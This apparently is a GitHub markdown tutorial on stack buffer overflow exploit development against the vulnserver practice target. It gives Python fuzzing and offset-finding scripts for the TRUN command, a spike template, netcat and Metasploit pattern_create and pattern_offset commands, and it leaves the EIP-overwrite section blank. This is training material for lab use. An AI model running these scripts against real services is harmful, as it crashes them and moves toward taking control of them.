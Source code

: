 # Exploit Development

## Index

- [Required installation](#Required-installations)
- [Spiking](#Spiking)
- [Fuzzing](#Fuzzing)
- [Fiding the Offset](#Finding-the-offset)
- [Overwriting the EIP](#Overwriting-the-EIP)



## Required installations

You need to downaload **vulnserver** (.zip) and **immunity debugger**. IF you don't have Python 2.7, you can install it during the execution of **ID**

Go to the immunity debugger and click on `file` --> `attached` --> find your file `vulnserver.exe`

The vulnserver is listenning by default on port 9999.

## Spiking

Spiking is the process to find a way to crash the machine, the program send somes characteres randomly and hope find a breach.
It's just looking for something to break the program.

You can connect with netcat on the machine who run the backdoor (`vulnserver.exe`). --> `nc -nv <victim_ip> <port(default : 9999)>`

Or with the command `generic_send_tcp` --> `genreric_send_tcp <target_ip> <port(default : 9999)> <file>.spk 0 0`

We try with **immunity debugger** so the program will not crash but if we send all kind of file.spk like that :

```
_readline();
s_string("TRUN ");
s_string_variable("0");

```
The immunity debugger is paused and vulnserver not crashed. We see the ESP (*Extended Stack Pointer*) with lot's of characters.
The same character is present multiple times (in hexadecimal form) in the EBP (*Extended Base Pointer*) and the **EIP** (*Extended Instruction Pointer**) 
The **EIP** is the most interesting because it's here that we can execute some malicious code.

We can just replace "TRUN " by "STATS " or other word defined when you did the `nc` command.
For some file, it will not crash, but for some it will crash.
In our example, `trun` command is vulnerable so we keep this example until the end.

## Fuzzing

The fuzzing is similar to spiking because we are going to be sending bunch of random character at a specific command and trying to break it.

The difference is fuzzing appears after you know which command is vulnerable.
 
We try to know where the program crashed, how many bytes we can send in order to crash the program. We can do this with a python script : 

```
#!/usr/bin/python
import socket, sys
from time import sleep

buffer = "A" * 100

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('<victim_ip>', <port(default : 9999)>))
	
		s.send(('TRUN /.:/' + buffer))					| <-- the "/.:/" is required for the program in order to understand
		s.close()
		sleep(1)
		buffer = buffer + "A" * 100					| <-- the buffer is icrementing with hundred of "A" each time 

	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer))		| <-- we print the length of the buffer when the program crashed (how many bytes). 
		sys.exit() 

```
You can see the **immunity debugger** is paused, you can ^C the program .py and see at *how many bites* the program crashed.

## Finding the Offset

Finding the offset means finding where we overwrite the EIP because that's what we want to control.
When we have the number of bytes aproximatively, we have to create a new buffer, we call it the offset, with a tool in metasploit framework.

Create this pattern --> `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <python_script_result>`
This command generate a string and you can modify the python script.

``` 
#!/usr/bin/python
import socket, sys

offset = "<pattern>"								| <-- paste the result pattern of the metasploit tool

while True: 
        try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect(('192.168.1.95', 9999))
                s.send(('TRUN /.:/' + offset))
                s.close()
        except:   
                print "Error connecting to server"
                sys.exit()

```
The program crashed and you need to know where, so we use another metasploit tool.
--> `usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <same_value_as_we_created> -q <EIP_value_in_immunity_debugger>`
--> It gives you the exact offset match with the number of bytes. At this number of bytes, we can control the EIP.

## Overwriting the EIP



 
